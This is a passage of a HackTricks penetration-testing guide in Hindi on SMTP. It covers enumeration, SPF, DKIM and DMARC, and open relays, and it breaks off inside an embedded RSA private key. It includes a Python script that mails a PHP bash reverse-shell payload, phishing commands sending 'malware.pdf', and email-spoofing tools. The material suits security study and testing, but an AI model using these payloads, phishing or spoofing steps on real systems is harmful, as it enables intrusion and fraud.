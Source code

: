 # 25,465,587 - Pentesting SMTP/s

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

#### Get a hacker's perspective on your web apps, network, and cloud

**Find and report critical, exploitable vulnerabilities with real business impact.** Use our 20+ custom tools to map the attack surface, find security issues that let you escalate privileges, and use automated exploits to collect essential evidence, turning your hard work into persuasive reports.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## **Basic Information**

**सिंपल मेल ट्रांसफर प्रोटोकॉल (SMTP)** एक प्रोटोकॉल है जो **ई-मेल भेजने और प्राप्त करने** के लिए TCP/IP सूट के भीतर उपयोग किया जाता है। प्राप्तकर्ता के अंत पर संदेशों को कतारबद्ध करने में इसकी सीमाओं के कारण, SMTP अक्सर **POP3 या IMAP** के साथ उपयोग किया जाता है। ये अतिरिक्त प्रोटोकॉल उपयोगकर्ताओं को सर्वर मेलबॉक्स पर संदेशों को संग्रहीत करने और उन्हें समय-समय पर डाउनलोड करने की अनुमति देते हैं।

व्यवहार में, यह सामान्य है कि **ई-मेल प्रोग्राम** **ई-मेल भेजने के लिए SMTP** का उपयोग करते हैं, जबकि **उन्हें प्राप्त करने के लिए POP3 या IMAP** का उपयोग करते हैं। यूनिक्स आधारित सिस्टम पर, **sendmail** ई-मेल उद्देश्यों के लिए सबसे अधिक उपयोग किया जाने वाला SMTP सर्वर है। Sendmail नामक व्यावसायिक पैकेज में एक POP3 सर्वर शामिल है। इसके अलावा, **Microsoft Exchange** एक SMTP सर्वर प्रदान करता है और POP3 समर्थन शामिल करने का विकल्प देता है।

**डिफ़ॉल्ट पोर्ट:** 25,465(ssl),587(ssl)
```
PORT   STATE SERVICE REASON  VERSION
25/tcp open  smtp    syn-ack Microsoft ESMTP 6.0.3790.3959
```
### EMAIL Headers

यदि आपके पास **शिकार को आपको एक ईमेल भेजने का अवसर है** (उदाहरण के लिए, वेब पृष्ठ के संपर्क फ़ॉर्म के माध्यम से), तो ऐसा करें क्योंकि **आप शिकार की आंतरिक टोपोलॉजी के बारे में जान सकते हैं** मेल के हेडर को देखकर।

आप एक SMTP सर्वर से एक ईमेल भी प्राप्त कर सकते हैं जो **उस सर्वर को एक गैर-मौजूद पते पर ईमेल भेजने की कोशिश कर रहा है** (क्योंकि सर्वर हमलावर को एक NDN मेल भेजेगा)। लेकिन, सुनिश्चित करें कि आप ईमेल एक अनुमत पते से भेजते हैं (SPF नीति की जांच करें) और कि आप NDN संदेश प्राप्त कर सकते हैं।

आपको **विभिन्न सामग्री भेजने की कोशिश भी करनी चाहिए क्योंकि आप हेडर में अधिक दिलचस्प जानकारी पा सकते हैं** जैसे: `X-Virus-Scanned: by av.domain.com`\
आपको EICAR परीक्षण फ़ाइल भेजनी चाहिए।\
**AV** का पता लगाना आपको **ज्ञात कमजोरियों का लाभ उठाने** की अनुमति दे सकता है।

## Basic actions

### **Banner Grabbing/Basic connection**

**SMTP:**
```bash
nc -vn <IP> 25
```
**SMTPS**:
```bash
openssl s_client -crlf -connect smtp.mailgun.org:465 #SSL/TLS without starttls command
openssl s_client -starttls smtp -crlf -connect smtp.mailgun.org:587
```
### किसी संगठन के MX सर्वरों को खोजना
```bash
dig +short mx google.com
```
### गणना
```bash
nmap -p25 --script smtp-commands 10.10.10.10
nmap -p25 --script smtp-open-relay 10.10.10.10 -v
```
### NTLM Auth - जानकारी का खुलासा

यदि सर्वर NTLM ऑथ (Windows) का समर्थन करता है, तो आप संवेदनशील जानकारी (संस्करण) प्राप्त कर सकते हैं। अधिक जानकारी [**यहां**](https://medium.com/@m8r0wn/internal-information-disclosure-using-hidden-ntlm-authentication-18de17675666)।
```bash
root@kali: telnet example.com 587
220 example.com SMTP Server Banner
>> HELO
250 example.com Hello [x.x.x.x]
>> AUTH NTLM 334
NTLM supported
>> TlRMTVNTUAABAAAAB4IIAAAAAAAAAAAAAAAAAAAAAAA=
334 TlRMTVNTUAACAAAACgAKADgAAAAFgooCBqqVKFrKPCMAAAAAAAAAAEgASABCAAAABgOAJQAAAA9JAEkAUwAwADEAAgAKAEkASQBTADAAMQABAAoASQBJAFMAMAAxAAQACgBJAEkAUwAwADEAAwAKAEkASQBTADAAMQAHAAgAHwMI0VPy1QEAAAAA
```
Or **automate** this with **nmap** plugin `smtp-ntlm-info.nse`

### आंतरिक सर्वर नाम - जानकारी का खुलासा

कुछ SMTP सर्वर "MAIL FROM" कमांड जारी करने पर जब पूर्ण पते के बिना भेजने वाले के पते को स्वचालित रूप से पूरा करते हैं, तो इसका आंतरिक नाम प्रकट होता है:
```
220 somedomain.com Microsoft ESMTP MAIL Service, Version: Y.Y.Y.Y ready at  Wed, 15 Sep 2021 12:13:28 +0200
EHLO all
250-somedomain.com Hello [x.x.x.x]
250-TURN
250-SIZE 52428800
250-ETRN
250-PIPELINING
250-DSN
250-ENHANCEDSTATUSCODES
250-8bitmime
250-BINARYMIME
250-CHUNKING
250-VRFY
250 OK
MAIL FROM: me
250 2.1.0 me@PRODSERV01.somedomain.com....Sender OK
```
### Sniffing

जांचें कि क्या आप पोर्ट 25 से पैकेट्स से कुछ पासवर्ड स्निफ़ कर रहे हैं

### [Auth bruteforce](../../generic-methodologies-and-resources/brute-force.md#smtp)

## Username Bruteforce Enumeration

**प्रमाणीकरण हमेशा आवश्यक नहीं है**

### RCPT TO
```bash
$ telnet 1.1.1.1 25
Trying 1.1.1.1...
Connected to 1.1.1.1.
Escape character is '^]'.
220 myhost ESMTP Sendmail 8.9.3
HELO x
250 myhost Hello 18.28.38.48, pleased to meet you
MAIL FROM:example@domain.com
250 2.1.0 example@domain.com... Sender ok
RCPT TO:test
550 5.1.1 test... User unknown
RCPT TO:admin
550 5.1.1 admin... User unknown
RCPT TO:ed
250 2.1.5 ed... Recipient ok
```
### VRFY
```bash
$ telnet 1.1.1.1 25
Trying 1.1.1.1...
Connected to 1.1.1.1.
Escape character is '^]'.
220 myhost ESMTP Sendmail 8.9.3
HELO
501 HELO requires domain address
HELO x
250 myhost Hello 18.28.38.48, pleased to meet you
VRFY root
250 Super-User root@myhost
VRFY blah
550 blah... User unknown
```
### EXPN
```bash
$ telnet 1.1.1.1 25
Trying 1.1.1.1...
Connected to 1.1.1.1.
Escape character is '^]'.
220 myhost ESMTP Sendmail 8.9.3
HELO
501 HELO requires domain address
HELO x
EXPN test
550 5.1.1 test... User unknown
EXPN root
250 2.1.5 ed.williams@myhost
EXPN sshd
250 2.1.5 sshd privsep sshd@myhost
```
### स्वचालित उपकरण
```
Metasploit: auxiliary/scanner/smtp/smtp_enum
smtp-user-enum: smtp-user-enum -M <MODE> -u <USER> -t <IP>
Nmap: nmap --script smtp-enum-users <IP>
```
<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

#### अपने वेब ऐप्स, नेटवर्क और क्लाउड पर एक हैकर का दृष्टिकोण प्राप्त करें

**वास्तविक व्यापार प्रभाव के साथ महत्वपूर्ण, शोषण योग्य कमजोरियों को खोजें और रिपोर्ट करें।** हमारे 20+ कस्टम टूल का उपयोग करके हमले की सतह का मानचित्रण करें, सुरक्षा मुद्दों को खोजें जो आपको विशेषाधिकार बढ़ाने की अनुमति देते हैं, और आवश्यक सबूत इकट्ठा करने के लिए स्वचालित शोषण का उपयोग करें, जिससे आपका कठिन काम प्रभावशाली रिपोर्टों में बदल जाए।

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## DSN रिपोर्ट

**डिलीवरी स्टेटस नोटिफिकेशन रिपोर्ट**: यदि आप किसी संगठन को एक **ईमेल** भेजते हैं एक **अमान्य पते** पर, तो संगठन आपको सूचित करेगा कि पता अमान्य था, आपको **मेल वापस भेजकर**। **हैडर** में लौटाए गए ईमेल में संभावित **संवेदनशील जानकारी** (जैसे कि रिपोर्ट के साथ बातचीत करने वाली मेल सेवाओं का IP पता या एंटी-वायरस सॉफ़्टवेयर की जानकारी) शामिल होगी।

## [Commands](smtp-commands.md)

### लिनक्स कंसोल से एक ईमेल भेजना
```bash
sendEmail -t to@domain.com -f from@attacker.com -s <ip smtp> -u "Important subject" -a /tmp/malware.pdf
Reading message body from STDIN because the '-m' option was not used.
If you are manually typing in a message:
- First line must be received within 60 seconds.
- End manual input with a CTRL-D on its own line.

<phishing message>
```

```bash
swaks --to $(cat emails | tr '\n' ',' | less) --from test@sneakymailer.htb --header "Subject: test" --body "please click here http://10.10.14.42/" --server 10.10.10.197
```
### Sending an Email with Python

<details>

<summary>यहाँ Python कोड है</summary>
```python
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
import smtplib
import sys

lhost = "127.0.0.1"
lport = 443
rhost = "192.168.1.1"
rport = 25 # 489,587

# create message object instance
msg = MIMEMultipart()

# setup the parameters of the message
password = ""
msg['From'] = "attacker@local"
msg['To'] = "victim@local"
msg['Subject'] = "This is not a drill!"

# payload
message = ("<?php system('bash -i >& /dev/tcp/%s/%d 0>&1'); ?>" % (lhost,lport))

print("[*] Payload is generated : %s" % message)

msg.attach(MIMEText(message, 'plain'))
server = smtplib.SMTP(host=rhost,port=rport)

if server.noop()[0] != 250:
print("[-]Connection Error")
exit()

server.starttls()

# Uncomment if log-in with authencation
# server.login(msg['From'], password)

server.sendmail(msg['From'], msg['To'], msg.as_string())
server.quit()

print("[***]successfully sent email to %s:" % (msg['To']))
```
</details>

## SMTP Smuggling

SMTP Smuggling भेद्यता ने सभी SMTP सुरक्षा को बायपास करने की अनुमति दी (सुरक्षा के बारे में अधिक जानकारी के लिए अगले अनुभाग को देखें)। SMTP Smuggling के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="smtp-smuggling.md" %}
[smtp-smuggling.md](smtp-smuggling.md)
{% endcontent-ref %}

## Mail Spoofing Countermeasures

संस्थाएँ **SPF**, **DKIM**, और **DMARC** का उपयोग करके उनकी ओर से अनधिकृत ईमेल भेजने से रोकी जाती हैं क्योंकि SMTP संदेशों को धोखा देना आसान है।

इन **काउंटरमेशर्स के लिए एक पूर्ण गाइड** [https://seanthegeek.net/459/demystifying-dmarc/](https://seanthegeek.net/459/demystifying-dmarc/) पर उपलब्ध है।

### SPF

{% hint style="danger" %}
SPF [2014 में "deprecated" हुआ](https://aws.amazon.com/premiumsupport/knowledge-center/route53-spf-record/)। इसका मतलब है कि `_spf.domain.com` में **TXT रिकॉर्ड** बनाने के बजाय आप इसे `domain.com` में **एक ही सिंटैक्स** का उपयोग करके बनाते हैं।\
इसके अलावा, पिछले spf रिकॉर्ड का पुन: उपयोग करने के लिए यह सामान्य है कि कुछ ऐसा पाया जाए जैसे `"v=spf1 include:_spf.google.com ~all"`
{% endhint %}

**Sender Policy Framework** (SPF) एक तंत्र है जो Mail Transfer Agents (MTAs) को यह सत्यापित करने में सक्षम बनाता है कि क्या एक ईमेल भेजने वाला होस्ट संगठनों द्वारा परिभाषित अधिकृत मेल सर्वरों की सूची को पूछकर अधिकृत है। यह सूची, जो IP पते/रेंज, डोमेन और अन्य संस्थाओं को **एक डोमेन नाम की ओर से ईमेल भेजने के लिए अधिकृत** करती है, SPF रिकॉर्ड में विभिन्न "**Mechanisms**" को शामिल करती है।

#### Mechanisms

[विकिपीडिया](https://en.wikipedia.org/wiki/Sender\_Policy\_Framework) से:

| Mechanism | Description                                                                                                                                                                                                                                                                                                                         |
| --------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| ALL       | हमेशा मेल खाता है; सभी IPs के लिए एक डिफ़ॉल्ट परिणाम के लिए `-all` जैसे उपयोग किया जाता है जो पिछले तंत्रों द्वारा मेल नहीं खाता।                                                                                                                                                                                                                                  |
| A         | यदि डोमेन नाम का एक पता रिकॉर्ड (A या AAAA) है जिसे भेजने वाले के पते पर हल किया जा सकता है, तो यह मेल खाता है।                                                                                                                                                                                                                   |
| IP4       | यदि भेजने वाला एक दिए गए IPv4 पते की रेंज में है, तो मेल खाता है।                                                                                                                                                                                                                                                                              |
| IP6       | यदि भेजने वाला एक दिए गए IPv6 पते की रेंज में है, तो मेल खाता है।                                                                                                                                                                                                                                                                              |
| MX        | यदि डोमेन नाम का एक MX रिकॉर्ड है जो भेजने वाले के पते पर हल होता है, तो यह मेल खाता है (यानी, मेल डोमेन के आने वाले मेल सर्वरों में से एक से आता है)।                                                                                                                                                                          |
| PTR       | यदि ग्राहक के पते के लिए डोमेन नाम (PTR रिकॉर्ड) दिए गए डोमेन में है और वह डोमेन नाम ग्राहक के पते पर हल होता है (फॉरवर्ड-कन्फर्म्ड रिवर्स DNS), तो मेल खाता है। इस तंत्र की सिफारिश नहीं की जाती है और इसे संभवतः टाला जाना चाहिए।                                                                                     |
| EXISTS    | यदि दिए गए डोमेन नाम का कोई भी पता हल होता है, तो मेल खाता है (कोई फर्क नहीं पड़ता कि यह किस पते पर हल होता है)। इसका उपयोग शायद ही कभी किया जाता है। SPF मैक्रो भाषा के साथ यह DNSBL-queries जैसी अधिक जटिल मेल खाता है।                                                                                                                           |
| INCLUDE   | किसी अन्य डोमेन की नीति का संदर्भ देता है। यदि उस डोमेन की नीति पास होती है, तो यह तंत्र पास होता है। हालाँकि, यदि शामिल की गई नीति विफल होती है, तो प्रसंस्करण जारी रहता है। किसी अन्य डोमेन की नीति को पूरी तरह से प्रतिनिधित्व करने के लिए, रीडायरेक्ट एक्सटेंशन का उपयोग किया जाना चाहिए।                                                                                     |
| REDIRECT  | <p>एक रीडायरेक्ट एक अन्य डोमेन नाम की ओर इशारा करता है जो एक SPF नीति को होस्ट करता है, यह कई डोमेन को समान SPF नीति साझा करने की अनुमति देता है। यह तब उपयोगी होता है जब एक बड़ी संख्या में डोमेन होते हैं जो समान ईमेल बुनियादी ढांचे को साझा करते हैं।</p><p>यह रीडायरेक्ट तंत्र में निर्दिष्ट डोमेन की SPF नीति का उपयोग किया जाएगा।</p> |

यह पहचानना भी संभव है **Qualifiers** जो **यह संकेत करते हैं कि यदि कोई तंत्र मेल खाता है तो क्या किया जाना चाहिए**। डिफ़ॉल्ट रूप से, **qualifier "+"** का उपयोग किया जाता है (तो यदि कोई तंत्र मेल खाता है, तो इसका मतलब है कि यह अनुमति दी गई है)।\
आप आमतौर पर **प्रत्येक SPF नीति के अंत में** कुछ ऐसा नोट करेंगे: **\~all** या **-all**। इसका उपयोग यह संकेत करने के लिए किया जाता है कि **यदि भेजने वाला किसी भी SPF नीति से मेल नहीं खाता है, तो आपको ईमेल को अविश्वसनीय (\~) के रूप में टैग करना चाहिए या ईमेल को अस्वीकार (-) करना चाहिए।**

#### Qualifiers

नीति के भीतर प्रत्येक तंत्र को इच्छित परिणाम को परिभाषित करने के लिए चार क्वालिफायर में से एक द्वारा पूर्ववर्ती किया जा सकता है:

* **`+`**: एक PASS परिणाम के अनुरूप है। डिफ़ॉल्ट रूप से, तंत्र इस क्वालिफायर को मानते हैं, जिससे `+mx` `mx` के बराबर हो जाता है।
* **`?`**: एक NEUTRAL परिणाम का प्रतिनिधित्व करता है, जिसे NONE (कोई विशिष्ट नीति नहीं) के समान माना जाता है।
* **`~`**: SOFTFAIL को दर्शाता है, जो NEUTRAL और FAIL के बीच एक मध्य भूमि के रूप में कार्य करता है। इस परिणाम को पूरा करने वाले ईमेल आमतौर पर स्वीकार किए जाते हैं लेकिन उचित रूप से चिह्नित होते हैं।
* **`-`**: FAIL को इंगित करता है, यह सुझाव देता है कि ईमेल को सीधे अस्वीकार किया जाना चाहिए।

आगामी उदाहरण में, **google.com की SPF नीति** को दर्शाया गया है। पहले SPF नीति के भीतर विभिन्न डोमेन से SPF नीतियों का समावेश नोट करें:
```shell-session
dig txt google.com | grep spf
google.com.             235     IN      TXT     "v=spf1 include:_spf.google.com ~all"

dig txt _spf.google.com | grep spf
; <<>> DiG 9.11.3-1ubuntu1.7-Ubuntu <<>> txt _spf.google.com
;_spf.google.com.               IN      TXT
_spf.google.com.        235     IN      TXT     "v=spf1 include:_netblocks.google.com include:_netblocks2.google.com include:_netblocks3.google.com ~all"

dig txt _netblocks.google.com | grep spf
_netblocks.google.com.  1606    IN      TXT     "v=spf1 ip4:35.190.247.0/24 ip4:64.233.160.0/19 ip4:66.102.0.0/20 ip4:66.249.80.0/20 ip4:72.14.192.0/18 ip4:74.125.0.0/16 ip4:108.177.8.0/21 ip4:173.194.0.0/16 ip4:209.85.128.0/17 ip4:216.58.192.0/19 ip4:216.239.32.0/19 ~all"

dig txt _netblocks2.google.com | grep spf
_netblocks2.google.com. 1908    IN      TXT     "v=spf1 ip6:2001:4860:4000::/36 ip6:2404:6800:4000::/36 ip6:2607:f8b0:4000::/36 ip6:2800:3f0:4000::/36 ip6:2a00:1450:4000::/36 ip6:2c0f:fb50:4000::/36 ~all"

dig txt _netblocks3.google.com | grep spf
_netblocks3.google.com. 1903    IN      TXT     "v=spf1 ip4:172.217.0.0/19 ip4:172.217.32.0/20 ip4:172.217.128.0/19 ip4:172.217.160.0/20 ip4:172.217.192.0/19 ip4:172.253.56.0/21 ip4:172.253.112.0/20 ip4:108.177.96.0/19 ip4:35.191.0.0/16 ip4:130.211.0.0/22 ~all"
```
परंपरागत रूप से, किसी भी डोमेन नाम को स्पूफ करना संभव था जिसके पास सही/कोई SPF रिकॉर्ड नहीं था। **आजकल**, यदि **ईमेल** किसी **डोमेन से आता है जिसके पास एक मान्य SPF रिकॉर्ड नहीं है**, तो इसे **स्वचालित रूप से अस्वीकृत/अविश्वसनीय के रूप में चिह्नित किया जाएगा**।

किसी डोमेन का SPF जांचने के लिए आप ऑनलाइन टूल का उपयोग कर सकते हैं: [https://www.kitterman.com/spf/validate.html](https://www.kitterman.com/spf/validate.html)

### DKIM (DomainKeys Identified Mail)

DKIM का उपयोग आउटबाउंड ईमेल पर हस्ताक्षर करने के लिए किया जाता है, जिससे उनके बाहरी मेल ट्रांसफर एजेंट (MTAs) द्वारा मान्यता प्राप्त की जा सके, जो DNS से डोमेन की सार्वजनिक कुंजी को पुनः प्राप्त करता है। यह सार्वजनिक कुंजी एक डोमेन के TXT रिकॉर्ड में स्थित होती है। इस कुंजी तक पहुँचने के लिए, चयनकर्ता और डोमेन नाम दोनों को जानना आवश्यक है।

उदाहरण के लिए, कुंजी का अनुरोध करने के लिए, डोमेन नाम और चयनकर्ता आवश्यक हैं। इन्हें मेल हेडर `DKIM-Signature` में पाया जा सकता है, जैसे, `d=gmail.com;s=20120113`।

इस जानकारी को प्राप्त करने के लिए एक कमांड इस तरह दिख सकती है:
```bash
dig 20120113._domainkey.gmail.com TXT | grep p=
# This command would return something like:
20120113._domainkey.gmail.com. 280 IN   TXT    "k=rsa\; p=MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA1Kd87/UeJjenpabgbFwh+eBCsSTrqmwIYYvywlbhbqoo2DymndFkbjOVIPIldNs/m40KF+yzMn1skyoxcTUGCQs8g3
```
### DMARC (Domain-based Message Authentication, Reporting & Conformance)

DMARC ईमेल सुरक्षा को SPF और DKIM प्रोटोकॉल पर आधारित करके बढ़ाता है। यह नीतियों को रेखांकित करता है जो विशेष डोमेन से ईमेल के प्रबंधन में मेल सर्वरों का मार्गदर्शन करती हैं, जिसमें प्रमाणीकरण विफलताओं से निपटने और ईमेल प्रसंस्करण क्रियाओं के बारे में रिपोर्ट भेजने के स्थान शामिल हैं।

**DMARC रिकॉर्ड प्राप्त करने के लिए, आपको उपडोमेन \_dmarc को क्वेरी करना होगा**
```bash
# Reject
dig _dmarc.facebook.com txt | grep DMARC
_dmarc.facebook.com.	3600	IN	TXT	"v=DMARC1; p=reject; rua=mailto:a@dmarc.facebookmail.com; ruf=mailto:fb-dmarc@datafeeds.phishlabs.com; pct=100"

# Quarantine
dig _dmarc.google.com txt | grep DMARC
_dmarc.google.com.	300	IN	TXT	"v=DMARC1; p=quarantine; rua=mailto:mailauth-reports@google.com"

# None
dig _dmarc.bing.com txt | grep DMARC
_dmarc.bing.com.	3600	IN	TXT	"v=DMARC1; p=none; pct=100; rua=mailto:BingEmailDMARC@microsoft.com;"
```
#### DMARC टैग

| टैग नाम  | उद्देश्य                                       | उदाहरण                          |
| -------- | --------------------------------------------- | ------------------------------- |
| v        | प्रोटोकॉल संस्करण                              | v=DMARC1                        |
| pct      | फ़िल्टरिंग के अधीन संदेशों का प्रतिशत        | pct=20                          |
| ruf      | फोरेंसिक रिपोर्टों के लिए रिपोर्टिंग यूआरआई  | ruf=mailto:authfail@example.com |
| rua      | समग्र रिपोर्टों का रिपोर्टिंग यूआरआई         | rua=mailto:aggrep@example.com   |
| p        | संगठनात्मक डोमेन के लिए नीति                 | p=quarantine                    |
| sp       | ओडी के उपडोमेन के लिए नीति                   | sp=reject                       |
| adkim    | DKIM के लिए संरेखण मोड                      | adkim=s                         |
| aspf     | SPF के लिए संरेखण मोड                       | aspf=r                          |

### **उपडोमेन के बारे में क्या?**

**यहां से** [**यहां**](https://serverfault.com/questions/322949/do-spf-records-for-primary-domain-apply-to-subdomains)**.**\
आपको प्रत्येक उपडोमेन के लिए अलग SPF रिकॉर्ड होना चाहिए जिससे आप मेल भेजना चाहते हैं।\
यह निम्नलिखित मूल रूप से openspf.org पर पोस्ट किया गया था, जो इस तरह की चीजों के लिए एक शानदार संसाधन था।

> डेमन प्रश्न: उपडोमेन के बारे में क्या?
>
> यदि मुझे pielovers.demon.co.uk से मेल मिलता है, और pielovers के लिए कोई SPF डेटा नहीं है, तो क्या मुझे एक स्तर पीछे जाकर demon.co.uk के लिए SPF का परीक्षण करना चाहिए? नहीं। डेमन पर प्रत्येक उपडोमेन एक अलग ग्राहक है, और प्रत्येक ग्राहक की अपनी नीति हो सकती है। डेमन की नीति का सभी ग्राहकों पर डिफ़ॉल्ट रूप से लागू होना समझ में नहीं आता; यदि डेमन ऐसा करना चाहता है, तो वह प्रत्येक उपडोमेन के लिए SPF रिकॉर्ड सेट कर सकता है।
>
> इसलिए SPF प्रकाशकों के लिए सलाह यह है: आपको प्रत्येक उपडोमेन या होस्टनाम के लिए एक SPF रिकॉर्ड जोड़ना चाहिए जिसमें A या MX रिकॉर्ड हो।
>
> वाइल्डकार्ड A या MX रिकॉर्ड वाले साइटों के पास भी वाइल्डकार्ड SPF रिकॉर्ड होना चाहिए, इस रूप में: \* IN TXT "v=spf1 -all"

यह समझ में आता है - एक उपडोमेन भौगोलिक रूप से अलग स्थान पर हो सकता है और इसका SPF परिभाषा बहुत अलग हो सकता है।

### **ओपन रिले**

जब ईमेल भेजे जाते हैं, तो यह सुनिश्चित करना कि उन्हें स्पैम के रूप में चिह्नित नहीं किया जाता है, महत्वपूर्ण है। यह अक्सर **प्राप्तकर्ता द्वारा विश्वसनीय रिले सर्वर** के उपयोग के माध्यम से प्राप्त किया जाता है। हालाँकि, एक सामान्य चुनौती यह है कि व्यवस्थापक यह नहीं जानते कि **कौन से IP रेंज सुरक्षित हैं**। इस समझ की कमी SMTP सर्वर को सेटअप करने में गलतियों का कारण बन सकती है, जो सुरक्षा आकलनों में अक्सर पहचानी जाती है।

एक वर्कअराउंड जो कुछ व्यवस्थापक ईमेल वितरण समस्याओं से बचने के लिए उपयोग करते हैं, विशेष रूप से संभावित या चल रहे ग्राहकों के साथ संचार के संबंध में, यह है कि **किसी भी IP पते से कनेक्शन की अनुमति दें**। यह SMTP सर्वर के `mynetworks` पैरामीटर को सभी IP पते स्वीकार करने के लिए कॉन्फ़िगर करके किया जाता है, जैसा कि नीचे दिखाया गया है:
```bash
mynetworks = 0.0.0.0/0
```
ईमेल सर्वर यह जांचने के लिए कि क्या यह एक ओपन रिलेज़ है (जिसका मतलब है कि यह किसी भी बाहरी स्रोत से ईमेल को अग्रेषित कर सकता है), `nmap` टूल का सामान्यत: उपयोग किया जाता है। इसमें इसे परीक्षण करने के लिए एक विशेष स्क्रिप्ट शामिल है। एक सर्वर पर वर्बोज़ स्कैन करने के लिए (उदाहरण के लिए, IP 10.10.10.10 के साथ) पोर्ट 25 पर `nmap` का उपयोग करते हुए कमांड है:
```bash
nmap -p25 --script smtp-open-relay 10.10.10.10 -v
```
### **उपकरण**

* [**https://github.com/serain/mailspoof**](https://github.com/serain/mailspoof) **SPF और DMARC गलत कॉन्फ़िगरेशन की जांच करें**
* [**https://pypi.org/project/checkdmarc/**](https://pypi.org/project/checkdmarc/) **स्वचालित रूप से SPF और DMARC कॉन्फ़िगरेशन प्राप्त करें**

### स्पूफ ईमेल भेजें

* [**https://www.mailsploit.com/index**](https://www.mailsploit.com/index)
* [**http://www.anonymailer.net/**](http://www.anonymailer.net)
* [**https://emkei.cz/**](https://emkei.cz/)

**या आप एक उपकरण का उपयोग कर सकते हैं:**

* [**https://github.com/magichk/magicspoofing**](https://github.com/magichk/magicspoofing)
```bash
# This will send a test email from test@victim.com to destination@gmail.com
python3 magicspoofmail.py -d victim.com -t -e destination@gmail.com
# But you can also modify more options of the email
python3 magicspoofmail.py -d victim.com -t -e destination@gmail.com --subject TEST --sender administrator@victim.com
```
{% hint style="warning" %}
यदि आपको **dkim python lib** में कुंजी को पार्स करते समय कोई **त्रुटि** मिलती है, तो इस निम्नलिखित का उपयोग करने में संकोच न करें।\
**नोट**: यह केवल एक अस्थायी समाधान है ताकि उन मामलों में त्वरित जांच की जा सके जहाँ किसी कारणवश openssl निजी कुंजी **dkim द्वारा पार्स नहीं की जा सकती**।
```
-----BEGIN RSA PRIVATE KEY-----
MIICXgIBAAKBgQDdkohAIWT6mXiHpfAHF8bv2vHTDboN2dl5pZKG5ZSHCYC5Z1bt
spr6chlrPUX71hfSkk8WxnJ1iC9Moa9sRzdjBrxPMjRDgP8p8AFdpugP5rJJXExO
pkZcdNPvCXGYNYD86Gpous6ubn6KhUWwDD1bw2UFu53nW/AK/EE4/jeraQIDAQAB
AoGAe31lrsht7TWH9aJISsu3torCaKyn23xlNuVO6xwdUb28Hpk327bFpXveKuS1
koxaLqQYrEriFBtYsU8T5Dc06FQAVLpUBOn+9PcKlxPBCLvUF+/KbfHF0q1QbeZR
fgr+E+fPxwVPxxk3i1AwCP4Cp1+bz2s58wZXlDBkWZ2YJwECQQD/f4bO2lnJz9Mq
1xsL3PqHlzIKh+W+yiGmQAELbgOdX4uCxMxjs5lwGSACMH2nUwXx+05RB8EM2m+j
ZBTeqxDxAkEA3gHyUtVenuTGClgYpiwefaTbGfYadh0z2KmiVcRqWzz3hDUEWxhc
GNtFT8wzLcmRHB4SQYUaS0Df9mpvwvdB+QJBALGv9Qci39L0j/15P7wOYMWvpwOf
